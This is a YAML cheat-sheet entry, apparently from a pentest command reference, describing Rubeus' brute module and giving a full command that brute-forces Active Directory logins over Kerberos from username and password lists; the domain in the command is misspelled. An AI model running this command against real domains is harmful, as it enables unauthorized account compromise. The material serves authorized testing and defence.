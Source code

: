 ```yaml
---
description: |
  Rubeus' `brute` module bruteforces and enumerates valid Active Directory accounts through Kerberos Pre-Authentication. The following command will attempt to brute force valid username and passwords logins given a list of usernames and a list of passwords.

  Command Reference:

  	Domain: test.local

  	Username List: usernames.txt

  	Password List: passwords.txt

  	Output File: found_passwords.txt
command: |
  Rubeus.exe /users:usernames.txt /passwords:passwords.txt /domain:test.loacl /outfile:found_passwords.txt
items:
  - No_Creds
services:
  - Kerberos
OS:
  - Windows
attack_types:
  - Enumeration
---
```

